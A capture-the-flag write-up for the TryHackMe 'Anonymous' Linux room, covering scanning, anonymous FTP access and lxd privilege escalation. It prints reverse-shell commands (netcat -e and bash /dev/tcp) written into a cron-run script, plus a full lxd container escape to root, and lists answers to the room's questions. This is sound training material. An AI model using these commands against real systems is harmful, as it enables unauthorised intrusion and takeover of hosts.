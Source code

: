 # TryHackMe - Anonymous - Linux

- [Room](https://tryhackme.com/room/anonymous)

## Nmap

```
┌──(root💀kali)-[~/Documents/tryhackme/anonymous]
└─# nmap -T4 -sC -sV -O -p- 10.10.55.112                                                                                                                                                                                               130 ⨯
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-30 17:28 EDT
Stats: 0:04:57 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 38.59% done; ETC: 17:41 (0:07:53 remaining)
Stats: 0:08:17 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 55.55% done; ETC: 17:43 (0:06:38 remaining)
Nmap scan report for 10.10.55.112
Host is up (0.21s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.13.22.56
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=6/30%OT=21%CT=1%CU=34181%PV=Y%DS=4%DC=I%G=Y%TM=62BE199
OS:7%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST1
OS:1NW7%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 4 hops
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2022-06-30T21:45:44
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2022-06-30T21:45:44+00:00

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1039.43 seconds
```

## SMB

```
┌──(root💀kali)-[~]
└─# smbclient -L \\10.10.55.112
Enter WORKGROUP\root's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        pics            Disk      My SMB Share Directory for Pics
        IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            ANONYMOUS
```

## FTP

- According to our nmap We are allowed to login as anonymous. It does work  
![image](https://user-images.githubusercontent.com/96747355/176789590-00febf49-a0d5-45f4-80c5-79ca143bd02f.png)  
- Here are the files we can download in our machine for further examination  
![image](https://user-images.githubusercontent.com/96747355/176789837-68e01438-4c77-4b90-bf71-b22e6bfb1232.png)  
- Here is the content of the files  
![image](https://user-images.githubusercontent.com/96747355/176790036-bf157c8f-6b52-4e8b-97ae-d518d19a708a.png)  
- It seems like we are allowed to write in the clean.sh file. Also if we check multiple times the scripts folder we can see that the log file is regurlarly updated. It is worth modifyin the script and try to get a reverse shell with it.  
![image](https://user-images.githubusercontent.com/96747355/176791076-258219c8-e3fa-48d4-90c4-677bf7912a2f.png)
- In the picture above we can see that the second ls shows that the log file is bigger and the time is later
- Let's try to modify the clean script with this 
```
#!/bin/bash

netcat 10.13.22.56 4444 -e /bin/bash
```
- We set our listener `rlwrap nc -lvnp 4444`
- We transfer the new file  
![image](https://user-images.githubusercontent.com/96747355/176791697-6d3b82f9-82fd-4720-bbcf-2996cfa89627.png)
- So nothing happens with this. If we check the hint it mentions unexpected results with netcat.
- Let's try with bash instead of netcat `bash -i >& /dev/tcp/10.13.22.56/4444 0>&1`  
- We get a shell as the user `namelessone` after a minute or so    
![image](https://user-images.githubusercontent.com/96747355/176949498-db6076e6-9025-4dd3-87f8-86998e37237c.png)  
- We can grab the user flag

## Privilege escalation

- Let's get linpeas in our target `wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh`
- `python3 -m http.server 80`
- From our target `wget http://10.13.22.56/linpeas.sh` and `chmod +x linpeas.sh`
- We are part of interesting groups such as lxd sudo and adm. However sudo -l does not give anything back. Let's try to abuse lxd and follow [this article](https://steflan-security.com/linux-privilege-escalation-exploiting-the-lxc-lxd-groups/) 
- To summarize here are the commands I ran (using the blog post as reference)

```
# From my kali
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder/
sudo ./build-alpine
# Setup HTTP server to host the image
python3 -m http.server 80
# From the target
wget http://10.13.22.56/alpine-v3.16-x86_64-20220701_1459.tar.gz
mv alpine-v3.16-x86_64-20220701_1459.tar.gz alpine.tar.gz
lxc image import ./alpine.tar.gz --alias myimage
lxd init 
# we push enter to all the prompts to keep default setup
lxc init myimage mycontainer -c security.privileged=true
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
lxc start mycontainer
lxc exec mycontainer /bin/sh
```
- It works, we are root  
![image](https://user-images.githubusercontent.com/96747355/176962259-df97417d-b029-4cba-8fc8-23d738145dc2.png)  
- We can grab the last flag. We need to access to the point where the system is mounted `cd /mnt/root` and we grab the flag `cat root/root.txt`!  

## Questions

1. Enumerate the machine.  How many ports are open? `4`
2. What service is running on port 21? `ftp`
3. What service is running on ports 139 and 445? `smb`
4. There's a share on the user's computer.  What's it called? `pics`
- I let you find the flags :) 
